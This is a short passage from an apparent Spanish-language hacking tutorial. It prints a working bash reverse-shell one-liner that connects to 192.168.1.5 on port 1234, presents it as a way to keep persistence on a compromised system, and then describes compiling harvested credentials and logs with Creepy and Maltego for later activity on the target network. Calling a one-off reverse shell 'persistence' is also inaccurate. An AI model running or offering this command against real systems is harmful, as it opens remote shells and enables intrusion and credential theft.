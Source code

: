 ### Código de Conexión de Reversa (Ejemplo)

```bash
bash -i >& /dev/tcp/192.168.1.5/1234 0>&1
```

El código anterior conecta a un servidor local en el puerto 1234. Esta es una manera básica de mantener la persistencia en el sistema.

### Guardar Información de forma Eficiente

Una vez que hemos recogido toda la información, es esencial almacenarla de forma eficiente. Esto significa utilizar herramientas adecuadas para que toda la información recopilada sea accesible más adelante. Herramientas como **Creepy** y **Maltego** pueden ayudarnos a almacenar toda la información. En este punto, podemos generar un informe que documente todas las credenciales, registros y cualquier otra información que hayamos recopilado. Esto facilitará futuras actividades en la red objetivo.
